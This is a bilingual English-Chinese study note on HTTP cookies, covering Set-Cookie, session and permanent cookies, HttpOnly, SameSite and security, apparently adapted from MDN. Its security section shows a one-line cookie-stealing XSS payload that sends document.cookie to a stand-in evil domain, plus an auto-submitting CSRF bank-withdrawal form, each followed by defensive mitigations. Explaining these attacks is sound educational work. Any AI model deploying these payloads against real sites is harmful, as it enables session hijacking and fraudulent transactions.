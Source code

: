 ```yaml
---
id: http/cookie
title: Cookie
---
```


An HTTP cookie (web cookie, browser cookie) is a small piece of data that a server sends to the user's web browser. The browser may store it and send it back with the next request to the same server. Typically, it's used to tell if two requests came from the same browser — keeping a user logged-in, for example. It remembers stateful information for the stateless HTTP protocol.

服务器发送cookie给用户浏览器，浏览器存储cookie并且在下次请求中带上cookie。通常，cookie用于告诉服务器两个请求是否来自同一个浏览器（记住状态）。

使用cookie的三个目的：

  1. `Session Management` Logins, shopping carts, game scores, or anything else the server should remember

  2. `Personalization` User preferences, themes and other settings

  3. `Tracking` Recording and analyzing user behavior

因为每次请求都会带上cookie，所以在网速受限的情况下会影响性能。如果只是想在客户端存储信息，可以使用`Web Storage Api`和`IndexedDB`.

## Creating cookies

When receiving an HTTP request, a server can send a `Set-Cookie` header with the response. The cookie is usually stored by the browser, and then the cookie is sent with requests made to the same server inside a `Cookie` HTTP header. An expiration date or duration can be specified, after which the cookie is no longer sent. Additionally, restrictions to a specific domain and path can be set, limiting where the cookie is sent.

服务器通过返回Set-Cookie header使浏览器保存cookie，浏览器发送请求时带着Cookie header来把cookie传回服务器。可以设置cookie的有限时间，发送的domain和path来限制它的发送。

## Session cookies

不设定Expires或Max-Age的cookie，会在页面关闭时失效，但是浏览器可以恢复页面，所以这种类型的cookie也是可以恢复的。

## Permanent cookies

设定Expires或者Max-Age的cookie，会在截止时间之前永久有效。截止时间是相对于客户端时间的，而不是服务器。

## Secure and HttpOnly cookies

Secure cookie 只支持HTTPS，HttpOnly cookie不能用document.cookie访问，只能送给服务器，相当于对用户隐身。

## Scope of cookies

Domain 和 Path 决定了cookie要送往的URL。

## SameSite cookies

服务器可以设置跨域请求能不能带上cookie，帮助防御CSRF攻击。

`None` 无限制

`Strict` 只允许同域请求带cookie

`Lax` 默认，禁止跨域子请求，比如加载图片或frames，但是当用户从外部链接导航到URL时，允许带cookie。

## Security

### Session hijacking and XSS

Cookies are often used in web application to identify a user and their authenticated session, so stealing a cookie can lead to hijacking the authenticated user's session. Common ways to steal cookies include Social Engineering or exploiting an XSS vulnerability in the application.

```javascript
(new Image()).src = "http://www.evil-domain.example.com/steal-cookie?cookie=" + document.cookie;
```

The `HttpOnly` cookie attribute can help to mitigate this attack by preventing access to cookie value through JavaScript. Exfiltration avenues can be limited by deploying a strict Content-Security-Policy.

### Cross-site request forgery (CSRF)

CSRF (Cross-Site Request Forgery) is an attack that impersonates a trusted user and sends a website unwanted commands. This can be done, for example, by including malicious parameters in a URL behind a link that purports to go somewhere else:

```html
<img src="https://www.example.com/index.php?action=delete&id=123">

<form action="https://bank.example.com/withdraw" method="POST">
  <input type="hidden" name="account" value="bob">
  <input type="hidden" name="amount" value="1000000">
  <input type="hidden" name="for" value="mallory">
</form>
<script>
  window.addEventListener('DOMContentLoaded', (e) => { document.querySelector('form').submit(); }
</script>
```

防止CSRF的方法：implement RESTful API, add secure token, etc.

1. 不要用GET带query参数的方法替代POST，规避GET形式的CSRF

2. `<form>`中要隐藏一个CSRF token, 该token对每个用户来说是独特的，并且存储在服务器上。服务器处理请求时要比对请求中的token和服务器上的token是否一致。This method of protection relies on an attacker being unable to predict the user's assigned CSRF token. The token should be regenerated on sign-in.

3. Cookies that are used for sensitive actions (such as session cookies) should have a short lifetime with the SameSite attribute set to `Strict` or `Lax`. (See `SameSite` cookies above). In supporting browsers, this will have the effect of ensuring that the session cookie is not sent along with cross-site requests and so the request is effectively unauthenticated to the application server.

4. Both CSRF tokens and SameSite cookies should be deployed. This ensures all browsers are protected and provides protection where SameSite cookies cannot help (such as attacks originating from a separate subdomain).